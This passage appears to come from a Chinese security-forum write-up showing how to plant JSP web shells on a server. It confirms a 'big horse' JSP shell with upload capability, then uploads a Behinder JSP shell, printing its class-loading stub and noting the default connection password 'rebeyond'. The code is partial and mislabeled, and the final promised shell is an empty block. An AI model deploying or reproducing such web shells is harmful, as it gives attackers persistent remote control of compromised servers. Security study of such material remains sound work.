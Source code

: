 ![1619339911577](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4bf48c830a03968c211befff73abdb3b759d871d.png)

它会自动部署 那我们访问一下

![1619332041600](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9993395f1fa62ab15ea86620431c18f7d584a5a2.png)

成功解析jsp大马，并能 upload上传功能！

这里上传冰蝎的jsp马儿

```php
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%                                                                                                                                                                                                                                                                                                                                                   %>
```

```php
/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/
```

![1619340379288](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-66d6cda8a9422e9503a419890e6c4ffac0944222.png)

upload之后 上冰蝎进行连接

![1619340324001](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-fe97939bfa547f1166502f14160167d736d6a54e.png)

![1619340439690](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-19767e72e36b8b576a382c69686dbb9ddcfc658f.png)

在贴一个牛逼的JSP大马

```php
```